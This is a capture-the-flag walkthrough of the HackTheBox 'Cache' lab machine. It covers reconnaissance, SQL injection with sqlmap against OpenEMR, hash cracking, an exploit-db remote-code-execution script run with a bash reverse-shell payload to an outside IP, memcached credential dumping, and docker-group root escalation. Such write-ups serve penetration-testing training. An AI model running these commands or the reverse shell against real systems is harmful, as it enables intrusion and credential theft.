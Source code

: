 ```yaml
---
title: hackthebox cache walkthrough
author: fasto
date: 2020-10-21 20:55:00 +0800
categories: [Blogging, Tutorial]
tags: [getting started]
pin: true
---
```


<h1>Summary</h1>
 Hey ,<br>cashe machine was released today  <br> it's my favorite machine created by ASHacker I am going to share a writeup for it ,the machine available at HackTheBox for penetration testing<br>
in user part we do some basic enumeration gives us a credential and also we got domain which vulnerable with sqlinjection and rce we dump credential with sqlmap and than use it for rce to get shell as www and then we find creds in memcached to got user,for privilege escalation we descoverd that the user is in the group docker we got root very easily
 
  <br> 

<h2>Walkthrough</h2>
<h4>Reconnaissance</h4>
---
We start with scan ports:

```
$ nmap -A 10.10.10.188
Starting Nmap 7.60 ( https://nmap.org ) at 2020-08-21 09:17 CET
Nmap scan report for cache.htb (10.10.10.188)
Host is up (0.33s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                      
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                                                             
|_http-title: Cache                                                                                                                                      
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.04 seconds
```                                                                                                                                                      
From the result above we found two working ports , port 80 and port 22                                                                                   
lets start with port 80                                                                                                                                  
![Desktop View](/img/00.png)

we find login page i've tried sql injection in login form but it's failed because the website isn't affected
![Desktop View](/img/0.png)


<h4>Enumeration</h4>


so i run dirb

![Desktop View](/img/1.png)
i found two directory
javascript 
and 
jquery
when i opened jquery i found one file there functionality.js i got inside the file 
<br>password : H@v3_fun
<br>username : ash
we keep it in text and keep continue

![Desktop View](/img/2.png)


<h5>Subdomain Enumeration FUFF</h5>
looking for domain with ffuf

![Desktop View](/img/3.png)
We found domain named hms like you see in the screen
add the domain in /etc/hosts
```
10.10.10.188    hms.htb
```
we open the domain in the browser 
![Desktop View](/img/4.png)
then i discovered that the application running in this domain is vulnerable with sql injection
<br>
by some googling i found youtube video explaining the vulnerability 


<br>
```https://www.youtube.com/watch?v=DJSQ8Pk_7hc ```
<br>

We intercept with burp

![Desktop View](/img/5.png)

We save the request in file
![Desktop View](/img/6.png)

then we inject with sqlmap :
```sqlmap -r om.req  --dbs```
<br>om.req ---> the request we saved
<br>
\--dbs  ---> Enumerate databases

![Desktop View](/img/7.png)
<br>we found the name of database 
![Desktop View](/img/8.png)
<br>we need to enmerate the tables<br>
``` sqlmap -r login.req -D openemr --table ```
<br>-D      ---> name of database we want to enumrate 
<br>--table ---> Enumerate  tables
<br>we got all tables in openemr now we need to dump user and password from  users_secure<br>
``` sqlmap -r login.req -D openemr -T users_secure --dump ```

![Desktop View](/img/10.png)

![Desktop View](/img/11.png)
like you see we found a hashed password <br>
we need to crack the hash with john <br>
```
$ john /tmp/hash -wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE (2020-08-21 16:12) 3.333g/s 2880p/s 2880c/s 2880C/s caitlin..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
<br>
and we got  the password xxxxxx Now we can login into openemr 
<br>and by some googling we find openemr it's also affected by rce (allow us to upload shell) 
<br>we download the script from exploit-db and run it
</br>https://www.exploit-db.com/exploits/45161

![Desktop View](/img/13.png)
<br>
```python 45161.py http://hms.htb/ -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.212/1338 0>&1'```

<br> we get our reverse shell
<h4>Privilege Escalation</h4>
i run netstat command <br> ```netstat -plant```
<br>


![Desktop View](/img/14.png)


<br>and i notice the port 11211 is open in local this port of memcached service

<br>lets dump data from it 
<br>connect with telnet
```telnet localhost 11211```
<br>lets start first with STAT command to print all the general statistics of the server

<br>


```
STAT items:1:number 5
STAT items:1:number_hot 0
STAT items:1:number_warm 0
STAT items:1:number_cold 5
STAT items:1:age_hot 0
STAT items:1:age_warm 0
STAT items:1:age 30
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:evicted_active 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 140
STAT items:1:lrutail_reflocked 0
STAT items:1:moves_to_cold 3205
STAT items:1:moves_to_warm 0
STAT items:1:moves_within_lru 0
STAT items:1:direct_reclaims 0
STAT items:1:hits_to_hot 0
STAT items:1:hits_to_warm 0
STAT items:1:hits_to_cold 0
STAT items:1:hits_to_temp 0
END
```



then 
stats cachedump 1 0



```
stats cachedump 1 0

ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]                                                                                                                                  
END   
```


get user

```
get user                                                                                                                                       
VALUE user 0 5
luffy
END
```
get passwd


```
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
```
<br>![Desktop View](/img/15.png)

<br>we got user and password we connect with ssh
and we we figured out the user luffy is in doker group



we go to gtfobins 

```https://gtfobins.github.io/gtfobins/docker/```


<br>![Desktop View](/img/16.png)
```
luffy@cache:~$ docker images
 REPOSITORY TAG IMAGE ID CREATED SIZE
 ubuntu latest 2ca708c1c9cc 7 months ago 64.2MB
 ```
 
<br>![Desktop View](/img/17.png)
and we got root
